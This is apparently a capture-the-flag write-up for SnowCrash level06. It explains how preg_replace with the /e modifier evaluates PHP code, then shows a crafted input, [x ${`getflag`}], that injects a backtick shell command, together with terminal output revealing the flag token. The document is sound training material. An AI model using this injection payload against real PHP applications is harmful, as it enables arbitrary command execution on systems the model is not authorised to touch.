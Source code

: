 After logging we find level06 and level06.php in our home folder

When looking at level06.php the method preg_replace is called with the pattern `/(\[x (.*)\])/e`
the /e modifer allows to use PHP code within your regex, it will be evaluated as part of the program

`$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);` $a is the content of argv[1]

We'll create a /tmp/regex and type [x {${\`getflag\`}}] in it

```
level06@SnowCrash:~$ echo '[x ${\`phpinfo()\`}]' > /tmp/regex
level06@SnowCrash:~$ ./level06 /tmp/regex
sh: 1: Syntax error: end of file unexpected
PHP Notice:  Undefined variable:  in /home/user/level06/level06.php(4) : regexp code on line 1

level06@SnowCrash:~$ echo '[x ${\`getflag\`}]' > /tmp/regex
level06@SnowCrash:~$ ./level06 /tmp/regex
PHP Notice:  Undefined variable: Check flag.Here is your token : `wiok45aaoguiboiki2tuin6ub`
in /home/user/level06/level06.php(4) : regexp code on line 1
```
